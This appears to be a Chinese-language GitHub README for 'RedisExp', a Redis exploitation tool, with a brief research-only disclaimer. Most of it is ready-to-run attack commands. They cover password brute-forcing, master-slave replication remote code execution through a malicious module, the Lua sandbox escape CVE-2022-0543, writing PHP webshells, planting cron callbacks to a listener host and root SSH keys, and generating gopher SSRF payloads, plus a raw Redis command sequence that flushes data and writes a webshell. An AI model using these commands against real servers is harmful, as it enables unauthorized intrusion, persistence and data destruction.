 ## Redis 漏洞利用工具


### 声明

**本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。**

------

### 注意

**主从复制会清空数据，主从复制会清空数据，主从复制会清空数据，请注意使用！请注意使用！请注意使用！**

------


```

██████╗ ███████╗██████╗ ██╗███████╗    ███████╗██╗  ██╗██████╗
██╔══██╗██╔════╝██╔══██╗██║██╔════╝    ██╔════╝╚██╗██╔╝██╔══██╗
██████╔╝█████╗  ██║  ██║██║███████╗    █████╗   ╚███╔╝ ██████╔╝
██╔══██╗██╔══╝  ██║  ██║██║╚════██║    ██╔══╝   ██╔██╗ ██╔═══╝
██║  ██║███████╗██████╔╝██║███████║    ███████╗██╔╝ ██╗██║
╚═╝  ╚═╝╚══════╝╚═════╝ ╚═╝╚══════╝    ╚══════╝╚═╝  ╚═╝╚═╝

基本连接: 
RedisExp.exe -r 192.168.19.1 -p 6379 -w 123456

爆破 Redis 密码:
RedisExp.exe brute -r 192.168.19.1 -f pass.txt

主从复制执行命令 (默认是交互式 shell)(Redis版本 4.x - 5.x):
RedisExp.exe rce -r 192.168.19.1 -L 127.0.0.1 -c whoami (单次执行)
RedisExp.exe rce -r 192.168.19.1 -L 127.0.0.1
RedisExp.exe rce -r 192.168.19.1 -L 127.0.0.1 -f exp.so (Linux)

主从复制文件上传 (windows 中文需要设置gbk)(Redis版本 4.x - 5.x):
RedisExp.exe upload -r 192.168.19.1 -L 127.0.0.1 -d c:\\中文\\ -f shell.php -F shell.txt -g
RedisExp.exe upload -r 192.168.19.1 -L 127.0.0.1 -f shell.php -F shell.txt

Lua沙盒绕过命令执行 CVE-2022-0543:
RedisExp.exe lua -r 192.168.19.6 -c whoami

备份写 Webshell (Windows 中文路径要设置gbk, linux 中文路径不用设置):
RedisExp.exe shell -r 192.168.19.1 -d c:\\中文\\ -f shell.php -s "<?php phpinfo();?>" -g

Linux 写计划任务:
RedisExp.exe cron -r 192.168.19.1 -L 127.0.0.1 -P 2222

Linux 写 SSH 公钥:
RedisExp.exe ssh -r 192.168.19.1 -u root -s "ssh-rsa AAAAB"

执行 Redis 命令:
RedisExp.exe cli -r 192.168.19.1

生成 gopher ssrf redis payload: 
RedisExp.exe gopher -f 1.txt

```

写文件
```
flushall
config set dir /tmp
config set dbfilename shell.php
set 'webshell' '<?php phpinfo();?>'
save
```


1. 具体命令使用 -h 来查看
2. exp.dll 和 exp.so 来自 https://github.com/0671/RabR 已经把内容分别加载到 dll.go 和 so.go 可以直接调用。
3. Windows 中文路径需要设置gbk，使用 -g 参数就可以了。



### 报错

```
工具报错：[ERR Error loading the extension. Please check the server logs.]        module load /tmp/exp.so

服务端报错：Module /tmp/exp.so failed to load: It does not have execute permissions.
```

有可能是 Redis 版本太高， exp.so 没有执行权限导致加载不了。具体需要查看服务端的报错



### 参考

本工具基于大量优秀文章和工具才得以~~编写~~ 抄写完成，非常感谢这些无私的分享者！

- https://github.com/zyylhn/redis_rce
- https://github.com/0671/RabR
- https://github.com/r35tart/RedisWriteFile
- https://github.com/toalaska/redis_tool
- https://yanghaoi.github.io/2021/10/09/redis-lou-dong-li-yong/
- https://github.com/firebroo/sec_tools/tree/master/redis-over-gopher

 

